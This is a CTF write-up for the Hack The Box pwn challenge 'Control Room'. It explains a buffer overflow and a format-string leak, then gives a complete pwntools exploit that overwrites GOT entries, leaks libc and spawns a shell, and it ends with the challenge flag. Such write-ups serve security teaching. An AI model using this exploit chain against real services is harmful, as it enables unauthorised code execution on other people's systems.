 # Control Room WriteUp by Om Honrao (@Inv1s1bl3#7047)

## Challenge Description
```
After unearthing the crashed alien spacecraft you have hacked your way into it's interior. Nothing seems perticularily interesting until you find the spacecraft's control room. Filled with monitors, buttons and panels this room surely contains a lot of important information, including the coordinates of the underground alien vessels that you 've been looking for. You decide to start off by booting up the main computer. You hear an uncanny buzzing-like noise and then a monitor lights up requesting you to enter a username. Can you take control of the Control Room?
```

## Challenge Files
```bash
 - pwn_control_room.zip
    ./banner.txt
    ./control_room
    ./libc.so.6
```

## Challenge Solution
This was very frustrating challenge for me but somehow solved it. Lets start with basic analysis of binary with `checksec` and `file` command.
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

I will talk straight to the point as i am not very good at explaining things. There are 2 bugs in the program.
1. The user role variable is 256 bytes away from our input so we can overflow and rewrite it to get the Captain role. But, ofc we know by running the file that Captain is not having the flag!
2. Format Strings vulnerability is present in Technician role by which we can leak out the stack!

Now, what are we supposed to do so there is `Ret2Libc` attack again. In short we leak the address of any one funtion present in libc and subtract the offset of it from libc base and we get the Libc base address! Using it we can calculate the address of system and then we can spawn a shell and get the flag!

##`Exploit.py`
```python
from pwn import *

elf = context.binary = ELF('control_room')

#p = process()
p = connect(Docker,Port)
libc = ELF('./libc.so.6', checksec=False)

# Change role
p.sendafter(b'username: ', b'a'*256)
p.sendlineafter(b'? (y/n)', b'n')
p.sendlineafter(b'size: ', b'256')
p.sendlineafter(b'username: ', b'quangba')
p.sendlineafter(b'\x3a\x20\x1b\x5b\x30\x6d', b'5')
p.sendlineafter(b'New role: ', b'1')

# Leaking the stack
p.sendlineafter(b'\x3a\x20\x1b\x5b\x30\x6d', b'1')
p.sendlineafter(b'Engine number [0-3]: ', b'-7')
p.sendlineafter(b'\tThrust: ', str(elf.sym['main']).encode())
p.sendlineafter(b'\tMixture ratio:', b'+')
p.sendlineafter(b'configuration? (y/n) \n', b'y')
p.sendlineafter(b'\x3a\x20\x1b\x5b\x30\x6d', b'1')
p.sendlineafter(b'Engine number [0-3]: ', b'-14')
p.sendlineafter(b'\tThrust: ', str(elf.plt['printf']).encode())
p.sendlineafter(b'\tMixture ratio:', b'+')
p.sendlineafter(b'configuration? (y/n) \n', b'y')

# Getting Libc base
p.sendlineafter(b'\x3a\x20\x1b\x5b\x30\x6d', b'6')
p.sendlineafter(b'username: ', b'%77$p%300c')
libc.address = int(p.recv(14).strip(), 16) - 0x29e40
log.info('libc.address: ' + hex(libc.address))
print('Libc at: ' + hex(libc.address))
p.sendlineafter(b'? (y/n)', b'n')
p.sendlineafter(b'size: ', b'256')
p.sendlineafter(b'username: ', b'quangba')
p.sendlineafter(b'\x3a\x20\x1b\x5b\x30\x6d', b'5')
p.sendlineafter(b'New role: ', b'1')

# Call system
system = libc.sym['system']
p.sendlineafter(b'\x3a\x20\x1b\x5b\x30\x6d', b'1')
p.sendlineafter(b'Engine number [0-3]: ', b'-17')
p.sendlineafter(b'\tThrust: ', b'+')
p.sendlineafter(b'\tMixture ratio:', str(system).encode())
p.sendlineafter(b'configuration? (y/n) \n', b'y')

# Get shell
p.sendlineafter(b'\x3a\x20\x1b\x5b\x30\x6d', b'6')
p.sendlineafter(b'username: ', b'%200c')
p.sendlineafter(b'? (y/n)', b'n')
p.sendlineafter(b'size: ', b'100')
p.sendlineafter(b'username: ', b'/bin/sh\x00')

# cat flag.txt!
p.interactive()
```

## Flag
```
HTB{pr3p4r3_4_1mp4ct~~!}
```